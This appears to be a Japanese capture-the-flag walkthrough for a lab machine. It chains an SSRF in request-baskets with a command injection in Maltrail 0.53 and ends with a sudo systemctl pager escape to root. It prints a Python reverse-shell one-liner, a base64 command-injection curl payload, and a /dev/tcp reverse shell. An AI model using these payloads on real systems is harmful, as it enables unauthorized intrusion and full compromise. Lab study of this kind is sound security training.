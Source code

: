 #### nmap

port555555にブラウザでアクセスする
![[Pasted image 20230821061029.png]]

新しいバスケットを作成
![[Pasted image 20230821061250.png]]
「Open Backet」で送信する
![[Pasted image 20230821061618.png]]
いくつかのオプションを設定できる
この機能を使えば、このバスケットに送られたリクエストを、ここに貼り付けた任意のURLにリダイレクトすることができる。
「任意の」URL を貼り付けてもよいでしょうか? ネットワーク内でも???
![[Pasted image 20230821061945.png]]

>"forward_url"：クライアントのリクエストをどこに転送するかをサーバに伝えます。
>"proxy_response" : クライアントがリクエストから返ってきた情報を知りたい場合にサーバーに指示する。
 >"insecure_tls" : サーバにSSL証明書のCAを検証させたくない場合。

ページの下に[[request-baskets Version1.21]]が表示されている
![[Pasted image 20230821062645.png]]
検索っしてみるとSSRFの脆弱性があることが分かる
###### 参照
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

「Configuration Settings」のURLに「http://127.0.0.1:80/login」全部のチェックボックスにチェックを入れて「Apply」を押す

URLに先ほど作成したBasketsのアドレスを入れる

![[Pasted image 20230821065216.png]]

proxy_responseをtrueに設定した理由を説明します。リクエストバスケットのドキュメントを読んだ後、それが何であるか、それがどのように機能するかについての一般的な概念を得ました。転送URLを設定すると、バスケットにリクエストがキャッチされ、設定したURLに転送されます。プロキシ応答をtrueに設定すると、バスケットURLをリクエストすると、リクエストがForward URLに転送されるだけでなく、ブラウザで応答が表示されます。

ページの下に[[Maltrail v0.53]]が表示されている。
これにはOS command injectionの脆弱性がある


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' | base64
```

```BASH
curl 'http://10.10.11.224:55555/babesket' -d 'username=;`echo "base64でエンコードした物を入れる" | base64 -d | bash`'
```

または
```bash
git clone https://github.com/massco99/htb_sau.git
```

リスナーを起動しておけばシェルがとれる

![[Pasted image 20230821071929.png]]

#### 権限昇格

```BASH
puma$ sudo -S -l
... snip ...
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```BASH
puma$ sudo /usr/bin/systemctl status trail.service
> WARNING: terminal is not fully functional
> -  (press RETURN)
> ● trail.service - Maltrail. Server of malicious traffic detection system
>      Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
>      Active: active (running) since Thu 2023-07-27 20:59:09 UTC; 38min ago
>        Docs: https://github.com/stamparm/maltrail#readme
>              https://github.com/stamparm/maltrail/wiki
>    Main PID: 894 (python3)
>       Tasks: 27 (limit: 4662)
>      Memory: 46.1M
>      CGroup: /system.slice/trail.service
>              ├─ 894 /usr/bin/python3 server.py
>              ├─ 949 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 950 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 952 bash
>              ├─ 953 /bin/bash -c bash -i >& /dev/tcp/10.10.16.101/9999 0>&1
>              ├─ 954 bash -i
>              ├─ 985 sh
>              ├─1001 /bin/bash
>              ├─1003 /bin/sh
>              ├─1022 script /dev/null /bin/bash
>              ├─1023 bash -i
>              ├─1030 sudo /usr/bin/systemctl status trail.service
>              ├─1031 /usr/bin/systemctl status trail.service
>              ├─1032 pager
> lines 1-23~
```

```BASH
> lines 1-23~!sh
>> root# id
>>> uid=0(root) gid=0(root) groups=0(root)
```








